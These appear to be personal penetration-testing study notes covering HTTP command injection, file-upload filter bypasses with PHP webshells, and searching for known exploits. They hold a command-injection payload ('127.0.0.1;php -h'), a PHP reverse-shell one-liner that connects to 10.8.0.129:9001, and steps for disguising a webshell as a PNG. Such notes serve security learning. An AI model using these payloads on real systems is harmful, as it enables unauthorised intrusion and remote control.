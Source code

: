 ### HTTP Command injection 
- code based revshelld 
- if there's interpreter or commands exist check > execution 
- error message stdout 
    - 2>&1

- PHP python check: php -h 
    - `127.0.0.1;php -h`
    - URL encoding needed in burp suite.
    - `curl -h` 

- revshells.com list > php shell_exec
```bash
php -r '$sock=fsockopen("10.8.0.129",9001);shell_exec("sh <&3 >&3 2>&3");'
```

- ubuntu using > maybe python
- no response = maybe error message on the target host
    - python -h 2>&1 : I can see 'not found'



### HTTP file uplaod bypass
- wso.php

1. extension : .png content-type : php 
2. extension : .php content-type : png
3. extension : .png content-type : png , but magic bytes: png, file-content : php > execute payload code(webshell) with LFI 


- ../../hackable/uploads/magic.png

- webshell broken in browser. > better to use rev-shell


### known exploit
- meomry(stack/heap) overflow = BSOD(blue screen) be careful 
- remote = initial exploit, local = post exploit
- authenticated Vs Unauthenticated need or not

- analyze 
- read annotation # > 
    - structure check. where main func, exploit, utility 


- if there're no exploit code on searchsploit, need to find on the internet

```
searchsploit vsftpd 
backdoor command execution 

> google : vsftpd 2.3.4 "analysis" github
```

- got even source code, but some cases, can't see the source code

